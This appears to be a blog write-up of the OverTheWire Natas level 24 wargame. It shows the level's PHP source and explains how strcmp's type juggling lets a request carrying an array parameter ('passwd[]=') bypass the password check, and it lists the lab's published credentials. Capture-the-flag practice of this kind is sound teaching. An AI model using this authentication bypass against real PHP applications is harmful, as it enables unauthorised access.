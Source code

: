 ```yaml
---
title: Wargames - Natas 24
published: true 
tags: natas
---
```


## [Level 24](https://overthewire.org/wargames/natas/natas24.html)

Username: natas24
password: OsRmXFguozKpTZZ5X14zNO43379LZveg
Lab URL: http://natas24.natas.labs.overthewire.org/

The main page looks pretty similar to the page from the past level. Let's get a closer look at the source code:
```
<?php
    if(array_key_exists("passwd",$_REQUEST)){
        if(!strcmp($_REQUEST["passwd"],"<censored>")){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas25 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }
    // morla / 10111
?>  
```

I guess the is some bug with the strcmp function because nothing else looks vulnerable. I found ![this](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf) presentations. Referring to this paper, the password can by obtain by submitting a request to the following URL:

```
http://natas24.natas.labs.overthewire.org/?passwd[]=
```

The result of this operation is:

![password](assets\natas\24\pass.png)

password: GHF6X7YwACaYYssHVY05cFq83hRktl4c